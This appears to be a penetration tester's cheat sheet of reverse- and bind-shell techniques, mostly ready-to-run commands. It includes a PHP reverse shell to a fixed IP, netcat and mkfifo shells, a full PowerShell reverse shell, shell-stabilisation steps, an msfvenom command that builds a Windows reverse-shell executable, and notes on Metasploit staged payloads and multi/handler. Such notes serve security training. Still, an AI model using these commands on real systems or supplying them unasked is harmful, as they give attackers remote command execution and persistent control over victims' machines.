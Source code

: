 ```php -r '$sock=fsockopen("10.13.3.137",50050);exec("/bin/sh -i <&3 >&3 2>&3");'```


```nc -lvnp 192.168.1.1 8181``` : Create listener 

```nc <LOCAL-IP> <PORT> -e /bin/bash``` : Execute bash on connection 

```nc 192.168.1.2 8181``` : Bind to listener @ 192.168.1.2:8181

```nc -lvnp <PORT> -e /bin/bash``` : Execute bash on connection to listener. Can be used as bind shell

note: -e is not included in most versions of netcat due to its insecurity. On windows can use a static binary, while on linux we can use.

```mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f``` : bind shell

```mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f``` : reverse shell
  
```powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"``` : powershell reverse shell

Stabilizing netcat reverse shell on linux.
technique 1.

1. ```python -c 'import pty;pty.spawn("/bin/bash")'``` : replace python with python2 or python3 where necessary
2. ```export TERM=xterm``` : this will give us access to term commands such as clear
3. background the shell using Ctrl + Z. and then do ```stty raw -echo; fg``` : turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

technique 2.
with rlwrap listener(not installed by default)
1. background the shell using Ctrl + Z. and then do ```stty raw -echo; fg``` : turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

technique 3.
transfer socat static compiled binary to target machine. (wget on linux or invoke-webrequest on windows)

change your terminal tty size
open another terminal and run ```stty -a```. Note down the values for "rows" and columns:

based on output values type in:

stty rows <number> 
  
stty cols <number>
  
 msfvenom --list payloads 
  
to generate the payloads which can be used to get bind or reverse shells we can use msfvenom.

```msfvenom -p <PAYLOAD> <OPTIONS>```
  
```msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>```

-f: Specifies output format, -o : output location and filename

When working with msfvenom, it's important to understand how the naming system works. The basic convention is as follows:

<OS>/<arch>/<payload> : linux/x86/shell_reverse_tcp

Staged vs Stageless

You can send pyaloads in parts(stages) or all at once. As may be obvious this can have affects on detection based on size.

Staged: Payload sent in two parts. Small stager is sent and run onserver. This is small programmer which can connect back to listener but not actually create shell. Stager can then download the bigger payload to create shell. Requires special listener like metasploits multi/handler.

Stageless: send everything at once.

The payload shell_reverse_tcp indicates that it is a stageless payload. Stageless payloads are denoted with underscores (_). The staged equivalent to this payload would be:
shell/reverse_tcp

As staged payloads are denoted with another forward slash (/).

This rule also applies to Meterpreter payloads. A Windows 64bit staged Meterpreter payload would look like this:

windows/x64/meterpreter/reverse_tcp

A Linux 32bit stageless Meterpreter payload would look like this:

linux/x86/meterpreter_reverse_tcp

when dealing with staged payloads metasploits multi/handler is good way to catch shells.

set PAYLOAD specific to target, aswell as lhost and lport 

exploit -j : runs listerner as job in background

